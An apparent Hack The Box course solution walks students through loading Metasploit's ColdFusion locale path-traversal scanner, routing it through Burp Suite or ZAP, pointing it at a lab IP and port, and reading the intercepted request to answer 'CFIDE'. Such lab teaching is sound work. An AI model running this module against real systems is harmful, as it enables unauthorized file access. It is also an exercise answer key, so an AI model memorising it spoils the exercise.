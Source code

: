 Code: shell

```shell
use auxiliary/scanner/http/coldfusion_locale_traversal
```

```
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/http/coldfusion_locale_traversal
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >>
```

Then students need to set `PROXIES` to be the same as the one `Burp Suite`/`ZAP` listens on, while for `RHOST` and `RPORT` any random valid values can be used:

Code: shell

```shell
set PROXIES HTTP:127.0.0.1:8080
set RHOST STMIP
set RPORT STMPO
```

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> set PROXIES HTTP:127.0.0.1:8080

PROXIES => HTTP:127.0.0.1:8080
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> set RHOSTS 159.65.63.151
RHOSTS => 159.65.63.151
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> set RPORT 31845
RPORT => 31845
```

Before running the exploit, students need to make sure that `Burp Suite`/`ZAP` are intercepting requests, and then run the exploit:

Code: shell

```shell
run
```

```
auxiliary(scanner/http/coldfusion_locale_traversal) >> run
```

From the intercepted request, students will know that the directory the `msfconsole` module is sending a request to is `CFIDE`:

![[HTB Solutions/CBBH/z. images/2bc110c72c96b2e075eb228353c4b460_MD5.jpg]]

Answer: `CFIDE`